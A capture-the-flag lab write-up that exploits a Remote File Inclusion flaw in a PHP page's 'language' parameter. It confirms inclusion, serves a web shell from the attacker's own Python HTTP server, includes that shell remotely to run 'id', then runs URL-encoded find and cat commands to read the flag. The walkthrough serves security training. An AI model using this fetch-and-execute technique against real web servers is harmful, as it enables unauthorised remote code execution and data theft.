




## Exercises

### Question 1 — Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

Landed on the target page.


Tested RFI with a local URL first, to confirm inclusion works before pointing it anywhere external:

```
http://10.129.29.114/index.php?language=http://127.0.0.1:80/index.php
```



The page included and rendered itself, confirming the target is vulnerable to RFI and that included PHP gets executed rather than shown as plain text.

Started a Python HTTP server locally to host a web shell, then included it through the vulnerable parameter, passing a test command:

```
http://10.129.29.114/index.php?language=http://—REDACTED—/shell.php&cmd=id
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo python3 -m http.server 80                

[sudo] password for —REDACTED—: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.29.114 - - [01/Nov/2026 13:14:55] "GET /shell.php HTTP/1.0" 200 -
```

**Breakdown:**

- `sudo python3 -m http.server 80` starts Python's built-in HTTP server on port 80, serving the current directory (where `shell.php` sits); `sudo` is needed since port 80 is a privileged port
- `language=http://—REDACTED—/shell.php` points the vulnerable parameter at the hosted shell over HTTP
- `&cmd=id` the command passed to the included shell



Command execution confirmed — `id` returned `www-data`. The PHP notice about an undefined variable is just application noise from the unrelated `p2` variable, not something blocking execution.

Searched the filesystem for the flag, URL-encoding the command:

```
find / -type f -name *flag*.txt 2>/dev/null
```

```
find%20%2F%20-type%20f%20-name%20*flag*.txt%202%3E%2Fdev%2Fnull
```

**Breakdown:**

- `find /` searches starting from the filesystem root
- `-type f` restricts results to regular files
- `-name *flag*.txt` matches any filename containing `flag` and ending in `.txt`
- `2>/dev/null` redirects stderr to `/dev/null`, suppressing permission-denied errors from directories the web server user can't read



Found at `/exercise/flag.txt`. Read it:

```
cat /exercise/flag.txt
```

```
cat%20%2Fexercise%2Fflag.txt
```



**Answer:** `—REDACTED—`